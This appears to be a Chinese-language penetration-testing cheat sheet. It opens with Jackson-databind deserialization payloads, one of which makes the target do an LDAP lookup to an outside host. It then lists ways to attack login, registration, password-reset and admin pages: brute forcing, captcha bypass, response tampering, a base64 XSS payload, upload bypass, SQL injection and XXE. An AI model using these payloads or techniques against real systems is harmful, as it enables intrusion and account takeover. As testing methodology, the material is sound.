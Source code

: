```
{"param": ["com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",{"transletBytecodes": ["http://jackson_databind_Num1.localhost/jackson_databind_Num1"],\n"transletName": "a.b","outputProperties": {}\n}\n]\n}'
    
{"param": ["br.com.anteros.dbcp.AnterosDBCPDataSource",{"metricRegistry":"ldap://jackson_databind_24616/jackson_databind_24616"}]}',

```

## 渗透流程思路

### 登陆框

> **暴力破解用户名密码，验证码爆破和绕过，手机号撞库，测试sql注入，未授权访问，返回包绕过**

暴力破解用户名密码：固定用户名如：admin进行爆破密码，固定默认密码如：123456进行爆破用户名<br>
验证码爆破和绕过：验证码是4位，验证码参数删除，验证码前端验证无效<br>
手机号撞库：可搜集高质量的手机号<br>
测试sql注入：用户名框、密码框<br>
未授权访问：修改成登录主页面如：/index<br>
返回包绕过：false修改true，fail修改success，0修改1，301修改200<br>

- [hacden/常用字典](https://github.com/hacden/Hack/tree/master/%E5%B8%B8%E7%94%A8%E5%AD%97%E5%85%B8)
- [klionsec/SuperWordlist](https://github.com/klionsec/SuperWordlist)
- [rootphantomer/Blasting_dictionary](https://github.com/rootphantomer/Blasting_dictionary)
- [TheKingOfDuck/fuzzDicts](https://github.com/TheKingOfDuck/fuzzDicts)

### 注册框

> **恶意注册，xss**

恶意用户批量注册：无验证码<br>
验证码爆破和绕过：验证码是4位，验证码参数删除，验证码前端验证无效<br>
存储型XSS：注册框，使用xss<br>


### 密码找回

> **重置密码**

重置任意用户账户密码：爆破4位验证码，验证码在返回包中，第二步骤或第三步骤修改成自己接受的手机号或邮箱<br>
批量重置用户密码：默认验证码如：111111<br>


### 后台管理

> **越权访问，csrf，xss，文件上传，sql注入，xxe等**

越权访问：注意cookie、url，post中等存在的身份验证参数如：userid (个人资料信息泄漏、个人资料遍历)<br>
csrf：使用的token是否有效，是否有规律如：删除token<br>
xss：见框就插或上传后缀，如payload: "\>\<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="\>\</object\><br>
文件上传：图片上传处、视频上传处抓包绕过，ueditor编辑器漏洞<br>
sql注入：关键post参数，url隐藏参数，可结合爆破参数<br>
xxe：外部实体引用，是否支持xml格式请求<br>
